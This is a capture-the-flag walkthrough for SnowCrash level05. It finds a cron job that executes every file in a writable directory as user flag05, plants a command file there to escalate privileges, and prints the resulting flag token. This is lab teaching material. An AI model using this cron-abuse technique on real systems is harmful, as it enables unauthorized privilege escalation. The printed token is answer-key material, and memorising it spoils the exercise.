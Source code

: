# Level05

## Hint

**You have new mail.**

## Answer

Let's check our current directory:
```
level05@SnowCrash:~$ ll
total 12
dr-xr-x---+ 1 level05 level05  100 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level05 level05  220 Apr  3  2012 .bash_logout*
-r-x------  1 level05 level05 3518 Aug 30  2015 .bashrc*
-r-x------  1 level05 level05  675 Apr  3  2012 .profile*
```

Nothing at all. However when we logged in we saw the **You have new mail.** message, therefore let's check our mail:
```
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

From this we know that `crontab` is used to schedule the execution of the `sh /usr/sbin/openarenaserver` command ever 2 minutes. Let's see what that script looks like:
```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

We understand from this script that it does a loop for every file in `/opt/openarena/server/`, execute their contents and then delete that file, therefore let's create a file to execute the getflag command:
```
level05@SnowCrash:~$ echo 'getflag > /tmp/flag' > /opt/openarenaserver/givemeflagplz
```

Let's check the `/opt/openarenaserver/` directory until our file disappears:
```
level05@SnowCrash:~$ watch ls /opt/openarenaserver/
```

Once our file is gone, we can check our `tmp/flag` file:
```
level05@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
